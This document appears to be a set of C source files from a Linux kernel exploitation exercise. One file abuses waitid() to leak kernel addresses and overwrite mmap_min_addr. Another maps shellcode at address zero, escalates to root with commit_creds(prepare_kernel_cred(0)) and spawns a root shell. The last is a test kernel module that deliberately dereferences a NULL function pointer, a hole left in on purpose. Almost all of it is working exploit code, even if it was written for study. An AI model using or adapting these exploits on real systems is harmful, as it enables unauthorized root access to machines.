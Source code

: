 /** disable_map_min_add.c **/
/*
 *
 */

#include <stdio.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/resource.h>
#include <syscall.h>

/* offsets might differ, kernel was custom compiled
 * you can read vmlinux and caculate the offset when testing
 */

/*
#define OFFSET_KERNEL_BASE 0x000000
 */
#define MMAP_MIN_ADDR 0x1101de8
#define DAC_MMAP_MIN_ADDR 0xe8e810

/* get kernel functions address by reading /proc/kallsyms */
unsigned long get_kernel_sym(char *name)
{
  FILE *f;
  unsigned long addr;
  char dummy;
  char sname[256];
  int ret = 0;

  f = fopen("/proc/kallsyms", "r");
  if (f == NULL) {
    printf("[-] Failed to open /proc/kallsyms\n");
    exit(-1);
  }
  printf("[+] Find %s...\n", name);
  while(ret != EOF) {
    ret = fscanf(f, "%p %c %s\n", (void **)&addr, &dummy, sname);
    if (ret == 0) {
      fscanf(f, "%s\n", sname);
      continue;
    }
    if (!strcmp(name, sname)) {
      fclose(f);
      printf("[+] Found %s at %lx\n", name, addr);
      return addr;
    }
  }
  fclose(f);
  return 0;
}

int main(void)
{
  int pid, pid2, pid3;
  struct rusage rusage = { };
  unsigned long *p, *kernel_base;
  char *mmap_min_addr, *dac_mmap_min_addr;
  pid = fork();
  if (pid > 0) {
    /* try to bypass kaslr when /proc/kallsyms isn't readable */
    syscall(__NR_waitid, P_PID, pid, NULL, WEXITED|WNOHANG|__WNOTHREAD, &rusage);
    printf("[+] Leak size=%d bytes\n", sizeof(rusage));
    for (p = (unsigned long *)&rusage;
	 p < (unsigned long *)((char *)&rusage + sizeof(rusage));
	 p++) {
      printf("[+] Leak point: %p\n", p);
      if (*p > 0xffffffff00000000 && *p < 0xffffffffff000000) {
	p = (unsigned long *)(*p&0xffffffffff000000 /*+ OFFSET_TO_BASE*/); // spender's wouldn't actually work when KASLR was enabled
	break;
      }
    }
    if(p < (unsigned long *)0xffffffff00000000 || p > (unsigned long *)0xffffffffff000000)
      exit(-1);
  } else if (pid == 0) {
    sleep(1);
    exit(0);
  }

  kernel_base = get_kernel_sym("startup_64");
  printf("[+] Got kernel base: %p\n", kernel_base);
  mmap_min_addr = (char *)kernel_base + MMAP_MIN_ADDR;
  printf("[+] Got mmap_min_addr: %p\n", mmap_min_addr);
  dac_mmap_min_addr = (char *)kernel_base + DAC_MMAP_MIN_ADDR;
  printf("[+] Got dac_mmap_min_addr: %p\n", dac_mmap_min_addr);
  
  pid2 = fork();
  if (pid2 > 0) {
    printf("[+] Overwriting map_min_addr...\n");
    if (syscall(__NR_waitid, P_PID, pid, (siginfo_t *)(mmap_min_addr - 2), WEXITED|WNOHANG|__WNOTHREAD, NULL) < 0) {
      printf("[-] Failed!\n");
      exit(1);
    }
  } else if (pid2 == 0) {
    sleep(1);
    exit(0);
  }
  
  pid3 = fork();
  if (pid3 > 0) {
    printf("[+] Overwriting dac_mmap_min_addr...\n");
    if (syscall(__NR_waitid, P_PID, pid, (siginfo_t *)(dac_mmap_min_addr - 2), WEXITED|WNOHANG|__WNOTHREAD, NULL) < 0) {
      printf("[-] Failed!\n");
      exit(1);
    }
    printf("[+] map_min_addr disabled!\n");
    exit(0);
  } else if (pid3 == 0) {
    sleep(1);
    exit(0);
  }
  return 0;
}
/** disable_map_min_add.c EOF **/

/** null_poiter_exploit.c **/

#define _GNU_SOURCE

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <sys/mman.h>
#include <string.h>
#include <unistd.h>
#include <unistd.h>
#include <fcntl.h>

struct cred;
struct task_struct;

typedef struct cred *(*prepare_kernel_cred_t) (struct task_struct *daemon) __attribute__((regparm(3)));
typedef int (*commit_creds_t) (struct cred *new) __attribute__((regparm(3)));

prepare_kernel_cred_t   prepare_kernel_cred;
commit_creds_t    commit_creds;

/* a kernel null pointer derefence will help get privilege
 * /proc/test is a kernel-load module create for testing
 * touch_null_kp can be replace your own implement to
 * touch a kernel null ponit
 */
void touch_null_kp()  {
    printf("[+]Start touch kernel null point\n");

    int *f = open("/proc/test", O_RDONLY);
    read(f, NULL, 0);
}

/* run shell after root */
void get_shell() {
  char *argv[] = {"/bin/sh", NULL};

  if (getuid() == 0){
    printf("[+] Root shell success !! :)\n");
    execve("/bin/sh", argv, NULL);
  }
  printf("[-] failed to get root shell :(\n");
}

/* use for privilige escalation */
void get_root() {
    commit_creds(prepare_kernel_cred(0));
}

/* get function address by reading /proc/kallsyms */
unsigned long get_kernel_sym(char *name)
{
  FILE *f;
  unsigned long addr;
  char dummy;
  char sname[256];
  int ret = 0;

  f = fopen("/proc/kallsyms", "r");
  if (f == NULL) {
    printf("[-] Failed to open /proc/kallsyms\n");
    exit(-1);
  }
  printf("[+] Find %s...\n", name);
  while(ret != EOF) {
    ret = fscanf(f, "%p %c %s\n", (void **)&addr, &dummy, sname);
    if (ret == 0) {
      fscanf(f, "%s\n", sname);
      continue;
    }
    if (!strcmp(name, sname)) {
      fclose(f);
      printf("[+] Found %s at %lx\n", name, addr);
      return addr;
    }
  }
  fclose(f);
  return 0;
}

int main(int ac, char **av)
{

  /* get function address */
  prepare_kernel_cred = (prepare_kernel_cred_t)get_kernel_sym("prepare_kernel_cred");
  commit_creds = (commit_creds_t)get_kernel_sym("commit_creds");
  printf("Got commit_creds:%p,prepare_kernel_cred%p\n", commit_creds, prepare_kernel_cred);

  /* allocate memory loacate in 0x00 */
  printf("[+] Try to allocat 0x00000000...\n");
  if (mmap(0, 4096, PROT_READ|PROT_WRITE|PROT_EXEC,MAP_ANON|MAP_PRIVATE|MAP_FIXED, -1, 0) == (char *)-1){
    printf("[-] Failed to allocat 0x00000000\n");
    return -1;
  }
  printf("[+] Allocation success !\n");
  /* memset(0, 0xcc, 4096); */
  /*
    //movq rax, 0xffffffff81f3f45a
    //movq [rax], 0
    // it is not nessecc
    mov rax, 0x4242424242424242
    call rax
    xor rax, rax
    ret
    replace 0x4242424242424242 by get_root
    https://defuse.ca/online-x86-assembler.htm#disassembly
     */

  unsigned char shellcode[] = 
    { /*0x48, 0xC7, 0xC0, 0x5A, 0xF4, 0xF3, 0x81, *//*0x48, 0xC7, 0x00, 0x00, 0x00, 0x00, 0x00,*/ 0x48, 0xB8, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0x42, 0xFF, 0xD0, 0x48, 0x31, 0xC0, 0xC3 };
  /* insert the getroot address to shellcode */
  void **get_root_offset = rawmemchr(shellcode, 0x42);
  (*get_root_offset) = get_root;
  /* map shellcode to 0x00 */
  memcpy(0, shellcode, sizeof(shellcode));

  /* jmp to 0x00 */
  touch_null_kp();

  get_shell();

}

/** null_poiter_exploit.c EOF **/

/** test.c **/
#include <linux/init.h>
#include <linux/module.h>
#include <linux/proc_fs.h>
#include <linux/uaccess.h>
#include <linux/slab.h>
#include <asm/ptrace.h>
#include <asm/thread_info.h>

#define MY_DEV_NAME "test"
#define DEBUG_FLAG "PROC_DEV"

extern unsigned long proc_test_sp_print;
static ssize_t proc_read (struct file *proc_file, char __user *proc_user, size_t n, loff_t *loff);
static ssize_t proc_write (struct file *proc_file, const char __user *proc_user, size_t n, loff_t *loff);
static int proc_open (struct inode *proc_inode, struct file *proc_file);
static struct file_operations a = {
                                .open = proc_open,
                                .read = proc_read,
                                .write = proc_write,
};


static int __init mod_init(void)
{
    struct proc_dir_entry *test_entry;
    const struct file_operations *proc_fops = &a;
    printk(DEBUG_FLAG":proc init start\n");

    test_entry = proc_create(MY_DEV_NAME, S_IRUGO|S_IWUGO, NULL, proc_fops);
    if(!test_entry)
       printk(DEBUG_FLAG":there is somethings wrong!\n");

    printk(DEBUG_FLAG":proc init over!\n");
    return 0;
}

static ssize_t proc_read (struct file *proc_file, char *proc_user, size_t n, loff_t *loff)
{
    void (*fun)(void);
    fun = NULL;
    //printk("%s:thread.sp0: %p, task->stack: %p\n", "PROC", current->thread.sp0, current->stack);
    fun();
    //printk("The memory of %p : %d\n", proc_user, *proc_user);
    return 0;
}

static ssize_t proc_write (struct file *proc_file, const char __user *proc_user, size_t n, loff_t *loff)
{
    printk("%s:thread.sp0: %p, task->stack: %p\n", "PROC", current->thread.sp0, current->stack);
    return 0;
}

int proc_open (struct inode *proc_inode, struct file *proc_file)
{
    printk(DEBUG_FLAG":into open, cmdline:%s!\n", current->comm);
    printk("%s:thread.sp0: %p, task->stack: %p\n", "PROC", current->thread.sp0, current->stack);
    return 0;
}

module_init(mod_init);
/** test.c EOF **/
